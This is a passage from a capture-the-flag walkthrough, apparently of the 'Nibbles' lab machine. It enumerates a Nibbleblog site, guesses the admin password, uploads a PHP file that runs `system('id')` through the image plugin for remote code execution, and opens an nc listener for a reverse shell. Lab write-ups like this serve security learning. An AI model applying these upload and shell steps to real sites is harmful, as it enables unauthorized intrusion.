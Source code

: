 As seen I had the username correct, there is a user with username `admin` just left to figure the password out. So, one last key left to find. 

So far, we know:
- A Nibbleblog install potentially vulnerable to an authenticated file upload vulnerability
- An admin portal at `nibbleblog/admin.php`
- Directory listing which confirmed that `admin` is a valid username
- Login brute-forcing protection blacklists our IP address after too many invalid login attempts. This takes login brute-forcing with a tool such as [Hydra](https://github.com/vanhauser-thc/thc-hydra) off the table

Also, after looking at some more pages like http://10.129.163.128/nibbleblog//content/private/config.xml, there's a brief chance that since so many times here and there they've written the word `nibbles` there's a slight chance this can be the password too.

It's safe to say that we may have a password and have cracked all the keys!
So far, we know:
- We started with a simple `nmap` scan showing two open ports
- Discovered an instance of `Nibbleblog`
- Analyzed the technologies in use using `whatweb`
- Found the admin login portal page at `admin.php`
- Discovered that directory listing is enabled and browsed several directories
- Confirmed that `admin` was the valid username
- Found out the hard way that IP blacklisting is enabled to prevent brute-force login attempts
- Uncovered clues that led us to a valid credentials `admin:nibbles`

In fact after logging in using `admin:nibbles`, we do get in.
On scrolling around, oh boy! What i'm about to type is one of the craziest things i've ever done!

So, looking around, I saw plugins and there is this images tab.
Let's try to inject and try RCE using php since we remember that nibblesblog is in php.
Let's create a `phpInject.php`:
```
$ echo "<?php system('id'); ?>" > phpInject.php
```

Now, upload this php into the browse option and hit `save`.
![[Pasted image 20250103235454.png]]

Clearly, it's executing it! This also means we can execute a reverse shell to us!
Let's just find where this is going.

If you go back to http://10.129.184.244//nibbleblog//content/private/plugins/my_image/ that we found using gobuster, remember?
![[Pasted image 20250103235647.png]]

This is it! You can either open this or use curl and it will execute.
On opening, it returns:
```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Clearly, RCE is working!!
Now, let's create a reverse shell:
First, listen using nc on a port of your choice, i chose 4444:
```
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
```
